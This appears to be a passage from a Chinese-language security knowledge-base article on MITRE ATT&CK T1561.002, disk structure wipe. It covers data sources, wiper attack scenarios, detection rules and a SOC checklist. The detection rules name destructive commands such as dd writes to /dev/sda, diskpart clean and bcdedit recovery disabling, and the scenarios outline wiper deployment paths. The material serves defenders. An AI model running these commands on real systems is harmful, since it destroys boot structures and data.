| LBA | Logical Block Address | 逻辑块地址，磁盘扇区的编号方式 |
| BIOS | Basic Input Output System | 传统固件接口，依赖 MBR 引导 |
| UEFI | Unified Extensible Firmware Interface | 现代固件接口，依赖 ESP 中的引导文件 |
| ESP | EFI System Partition | EFI 系统分区，UEFI 系统的引导分区 |
| Boot Sector | Boot Sector | 引导扇区，包含引导代码的扇区，包括 MBR 和 VBR |
| Partition Table | Partition Table | 分区表，记录磁盘上每个分区的位置和大小 |
| BCDEdit | BCDEdit | Windows 的启动配置编辑工具 |
| TestDisk | TestDisk | 著名的分区表恢复工具 |

## 关联视图

### 与父技术及相关技术的关系

| 关系类型 | 相关技术 | 关系说明 |
|----------|----------|----------|
| 父技术 | T1561 磁盘擦除 | 本技术的父技术 |
| 兄弟子技术 | T1561.001 磁盘内容擦除 | 针对数据扇区，与本技术互补 |
| 区别 | T1485 数据销毁 | T1485 是文件级删除，本技术是引导结构级破坏 |
| 区别 | T1490 阻止系统恢复 | T1490 专攻 VSS 和恢复机制；本技术直接破坏引导结构 |
| 协同 | T1561.001 磁盘内容擦除 | 现代 wiper 通常同时执行 .001 和 .002 实现双重破坏 |
| 反取证 | T1070 指示器移除 | 本技术通过擦除日志扇区实现反取证 |

## 数据源

### ATT&CK 官方推荐数据源

| 数据源 | 数据源ID | 用途 |
|--------|----------|------|
| 命令执行 | DS0017 | 监控 dd、diskpart clean、bcdedit 等命令 |
| 驱动器创建 | DS0016 | 监控分区表的修改与销毁 |
| 文件访问 | DS0022 | 监控对 raw 设备文件的访问 |
| 进程创建 | DS0009 | 监控可疑擦除器进程的创建 |
| 进程OS API调用 | DS0009 | 监控 CreateFile、DeviceIoControl、ioctl 等系统调用 |
| Windows 注册表 | DS0024 | 监控 BCD（Boot Configuration Data）注册表项修改 |

### 各平台日志源

| 平台 | 日志源 | 事件示例 |
|------|--------|----------|
| Windows | Sysmon | Event ID 9 (RawAccessRead)、1 (ProcessCreation) |
| Windows | Security | Event ID 4663 (Object Access) |
| Windows | System | Event ID 1001 (BugCheck)、Event ID 7000 (服务启动失败) |
| Windows | ETW | Microsoft-Windows-Kernel-Disk |
| Linux | auditd | openat/write 对 /dev/sd* 的访问 |
| Linux | journald | dmesg 中的分区表错误 |

## 在攻击链中的位置


T1561.002 位于攻击链最末端的"影响"战术中。攻击者在完成横向移动、防御削弱、删除恢复路径后，最后执行结构擦除，目的是让系统无法启动。本技术往往与 T1561.001 配合使用——先擦结构让系统无法启动（快速瘫痪），再擦内容让数据彻底消失（不可恢复）。

## 攻击面与攻击场景

### 主要攻击面

| 攻击面 | 受影响资产 | 危害程度 | 典型场景 |
|--------|----------|----------|----------|
| Windows 工作站/服务器 | 域内 Windows 机器 | 极高 | WhisperGate、NotPetya 等通过组策略分发 |
| Linux 服务器 | Web/DB 服务器 | 极高 | 通过 SSH 横向移动后擦除 MBR |
| UEFI 系统 | 现代工作站/服务器 | 高 | 需同时擦除 ESP 才能阻止引导 |
| 物理服务器 | 数据中心服务器 | 极高 | 同时擦除多台服务器导致业务瘫痪 |
| 容器宿主机 | Docker/K8s 节点 | 极高 | 擦除宿主机引导后容器全部无法启动 |

### 典型攻击场景

#### 场景1：国家级网络战中的 MBR 擦除

**背景：** 地缘冲突中，攻击者需在战争初期快速瘫痪目标国家关键基础设施。

**攻击路径：**
1. 通过供应链攻击（软件更新）渗透目标网络
2. 横向移动到关键服务器和域控
3. 通过 PsExec/组策略同时分发擦除器到所有目标机器
4. 擦除器覆写 MBR/GPT 后立即触发重启
5. 重启后系统无法启动，业务彻底瘫痪

**关键特征：** 攻击潜伏期长，擦除执行时间往往与军事行动同步；覆写 MBR 后立即重启可避免被检测

#### 场景2：勒索软件伪装

**背景：** 攻击者真实目的是制造混乱而非获利，伪装成勒索软件增加混淆。

**攻击路径：**
1. 入侵后窃取敏感数据
2. 部署"加密"勒索软件，实际为 MBR 擦除器
3. 覆写 MBR 为勒索信息显示代码
4. 系统重启后显示勒索信息，要求支付加密货币
5. 受害者支付后无法恢复——擦除器根本没保存分区表

**关键特征：** 开机即显示勒索信息（早于操作系统加载）、没有提供解密测试功能

#### 场景3：政治化擦除

**背景：** 攻击者目的是政治宣传而非经济利益或纯粹破坏。

**攻击路径：**
1. 入侵目标网络
2. 部署擦除器，覆写 MBR 为政治性图片或宣传文字
3. 系统重启后显示政治信息
4. 同时擦除关键文件，但保留政治信息显示能力

**关键特征：** MBR 内容为政治性图片或文字（如 Shamoon 显示燃烧的美国国旗）

## 检测建议

### 黄金检测规则

| 规则名称 | 触发条件 | 数据源 | 严重级别 |
|----------|----------|--------|----------|
| Raw Disk 写入告警 | 非系统进程对 `\\.\PhysicalDrive*` 执行 WriteFile | Sysmon EID 9 + ETW | 高危 |
| MBR/GPT 哈希变更 | 第 0 扇区或第 1 扇区哈希与基线不一致 | FIM 工具 | 严重 |
| BCDEdit 修改 | `bcdedit /set recoveryenabled No` 在非装机阶段执行 | Sysmon EID 1 | 高危 |
| IOCTL_DISK_SET_DRIVE_LAYOUT_EX | 非系统进程调用此 ioctl | ETW Kernel-Disk | 高危 |
| diskpart clean 执行 | 非运维上下文中执行 diskpart clean | Sysmon EID 1 | 高危 |
| 系统启动失败 | 短时间内多台机器报告 BugCheck | Windows System Log | 严重 |

### SOC 监控清单

- [ ] 监控所有 raw disk 设备的写入访问
- [ ] 监控 MBR/GPT 扇区哈希完整性
- [ ] 监控 BCDEdit 命令执行（特别是 recoveryenabled、bootstatuspolicy）
- [ ] 监控 `IOCTL_DISK_SET_DRIVE_LAYOUT_EX` ioctl 调用
- [ ] 监控 diskpart clean 命令执行
- [ ] 监控 dd 命令对 /dev/sda 的访问
- [ ] 监控系统启动失败（BugCheck）事件
- [ ] 监控短时间内多台机器同时报告启动失败

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - T1561.002 Disk Structure Wipe](https://attack.mitre.org/techniques/T1561/002/)
- [MITRE ATT&CK - T1561 Disk Wipe](https://attack.mitre.org/techniques/T1561/)
- [MITRE ATT&CK - Impact Tactic TA0040](https://attack.mitre.org/tactics/TA0040/)

### 📰 安全报告（真实攻击）

- [Microsoft - WhisperGate 分析](https://www.microsoft.com/en-us/security/blog/2022/01/15/destructive-malware-targeting-ukrainian-organizations/) - 2022 乌克兰擦除攻击
- [Cisco Talos - NotPetya 技术分析](https://blog.talosintelligence.com/2017/06/worldwide-ransomware-variant.html) - NotPetya MBR 加密擦除
- [ESET - HermeticWiper 分析](https://www.welivesecurity.com/2022/03/01/isaacwiper-hermeticwizard-wiper-malware-ukraine/) - GPT 分区表精准破坏
- [Symantec - Shamoon 攻击报告](https://www.symantec.com/security-center/writeup/2017-111415-3147-99) - MBR 政治化覆写
- [Kaspersky - Olympic Destroyer](https://www.kaspersky.com/resource-center/threats/olympic-destroyer) - 平昌冬奥会擦除攻击
- [CISA - Shamoon 2 Advisory](https://www.cisa.gov/news-events/cybersecurity-advisories/icsa-17-300-01) - 擦除器防御指南

### 🔧 工具与资源（动手试试）

- [TestDisk - 分区表恢复](https://www.cgsecurity.org/wiki/TestDisk) - 擦除后分区表恢复
- [GParted Live - 分区管理 Live CD](https://gparted.org/livecd.php)
- [SystemRescue - 系统恢复 Live CD](https://www.system-rescue.org/)
- [Sysmon - 系统活动监控](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
- [Autopsy - 磁盘取证](https://www.autopsy.com/)

### 📚 学习资料（深入了解）

- [NIST SP 800-34 - 应急恢复指南](https://csrc.nist.gov/publications/detail/sp/800-34/rev-1/final)
- [UEFI Specification - UEFI 规范](https://uefi.org/specifications)
- [Wikipedia - Master Boot Record](https://en.wikipedia.org/wiki/Master_boot_record) - MBR 详细介绍
- [Wikipedia - GUID Partition Table](https://en.wikipedia.org/wiki/GUID_Partition_Table) - GPT 详细介绍
- [MITRE D3FEND 知识库](https://d3fend.mitre.org/)
